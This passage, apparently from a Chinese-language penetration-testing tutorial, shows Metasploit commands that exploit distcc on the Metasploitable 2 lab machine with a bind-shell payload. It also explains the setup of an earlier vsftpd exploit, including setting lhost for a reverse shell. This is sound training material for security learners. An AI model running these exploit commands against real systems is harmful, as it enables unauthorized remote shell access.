 1.  利用成功运行，并且我们已经进入了系统的根目录。让我们来看看我们在对 Metasploitable 2 进行漏洞评估扫描时发现的另一个漏洞。在终端中输入以下命令：

```
      search distcc
      use exploit/unix/misc/distcc_exec
      set payload cmd/unix/bind_perl
      set rhost <Target IP address>
      exploit

```

输出将如下截图所示：

![如何做...](img/image_04_031.jpg)

## 工作原理...

Metasploit 是一个提供了很多功能的框架，从枚举、利用到帮助编写利用。我们上面看到的是 Metasploit 利用的一个示例。让我们了解一下在前面的`vsftpd`场景中发生了什么：

+   搜索 vsftpd：这将在 Metasploit 数据库中搜索与`vsftpd`相关的任何信息

+   `use (exploit)`: 这指定了我们想要准备执行的利用

+   `set lhost`: 这将设置我们机器的本地主机 IP 以获取一个反向 shell

+   `set rhost`: 这将设置目标 IP 以启动利用

+   `set payload (payload path)`: 这指定了在成功完成利用后我们想要执行的操作

## 还有更多...

Metasploit 还提供了社区版的图形界面版本。建议查看一下。可以在[`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/)找到使用 Metasploit 的详细指南。

# 利用有漏洞的服务（Windows）
